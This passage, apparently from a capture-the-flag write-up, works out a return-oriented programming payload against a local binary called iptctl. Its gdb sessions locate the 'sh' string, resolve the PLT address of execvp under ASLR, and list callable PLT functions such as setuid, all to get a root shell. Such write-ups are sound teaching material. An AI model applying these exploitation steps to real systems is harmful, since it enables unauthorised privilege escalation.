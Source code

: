 I'll add a couple more gadgets in there in actuality to run `setuid`
before running `execve`, but that illustrates the idea.

#### Payload

I just need the values for the registers. First, I want the string "sh"
in rdi. Luckily, it exists inside the main binary, where the address
will be static:



    gdb-peda$ find "sh"                       
    Searching for 'sh' in: None ranges                                             
    Found 110 results, display max 110 items:                                       
        iptctl : 0x40046e --> 0x7063727473006873 ('sh')
        iptctl : 0x400e17 --> 0x62732f00776f6873 ('show')
        iptctl : 0x400e78 --> 0x203a29776f6873 ('show): ')
        iptctl : 0x400ea9 ("show IP\n")                    
        iptctl : 0x400ed1 ("show IP_ADDR\n")



That top one is perfect. It's actually the end of the string "fflush",
but that's ok:



    gdb-peda$ x/s 0x40046e                                                                   
    0x40046e:       "sh"                                                                                   
    gdb-peda$ x/s 0x40046a                                                          
    0x40046a:       "fflush"



I can get the PLT address of `execvp` by starting `gdb` fresh and
printing the function:



    gdb-peda$ p execvp
    $1 = {<text variable, no debug info>} 0x400760 <execvp@plt>



If I let the debugger run, after the function is called, the inner
workings get updated such that that same command will show the libc
address:



    gdb-peda$ p execvp
    $1 = {int (const char *, char * const *)} 0x7ffff7ea3240 <__GI_execvp>



But the libc address changes with ASLR, so I want the first one.

I can see all the plt functions that I'll have access to in gdbi by
opening `gdb` and running `plt`:



    gdb-peda$ plt
    Breakpoint 1 at 0x400760 (execvp@plt)
    Breakpoint 2 at 0x400770 (exit@plt)
    Breakpoint 3 at 0x400750 (fflush@plt)
    Breakpoint 4 at 0x400730 (fgets@plt)
    Breakpoint 5 at 0x400790 (fork@plt)
    Breakpoint 6 at 0x400740 (inet_pton@plt)
    Breakpoint 7 at 0x400720 (printf@plt)
    Breakpoint 8 at 0x400700 (puts@plt)
    Breakpoint 9 at 0x400780 (setuid@plt)
    Breakpoint 10 at 0x4006f0 (strcpy@plt)
    Breakpoint 11 at 0x400710 (strlen@plt)
    Breakpoint 12 at 0x4006e0 (strncpy@plt)
    Breakpoint 13 at 0x4007a0 (strstr@plt)
